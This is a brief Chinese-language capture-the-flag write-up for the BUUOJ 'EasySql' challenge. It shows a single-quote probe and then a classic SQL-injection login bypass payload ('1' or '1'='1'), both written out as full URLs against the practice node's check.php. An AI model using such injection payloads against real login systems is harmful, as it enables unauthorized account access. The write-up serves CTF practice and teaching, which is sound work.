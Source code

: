 ### buuoj_【极客大挑战 2019】EasySql

打开界面，是熟悉的味道，看题目直到这个问题是SQL注入

首先尝试下构造playload，看看能不能看出什么闭合

```
http://72034a47-7def-4778-830e-66a12c4e16b1.node4.buuoj.cn/check.php?username=admin&password=1%27
```

根据报错，可以看出是单引号闭合

![](https://pic.imgdb.cn/item/60f3c86f5132923bf801aee4.jpg)

然后试一下万能密码

```
http://72034a47-7def-4778-830e-66a12c4e16b1.node4.buuoj.cn/check.php?username=admin&password=1%27%20or%20%271%27=%271
```

![](https://pic.imgdb.cn/item/60f3c89a5132923bf8034b78.jpg)

成功了